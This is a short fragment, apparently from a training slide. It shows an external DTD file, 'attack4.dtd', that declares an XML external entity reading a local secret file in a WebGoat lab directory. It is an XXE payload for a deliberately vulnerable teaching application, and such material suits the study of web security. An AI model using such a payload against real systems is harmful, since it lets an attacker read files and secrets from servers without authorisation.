

#
attack4.dtd
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY secret SYSTEM 'file:///C:/Users/HOME/.webgoat-8.2.0/XXE/secret.txt'>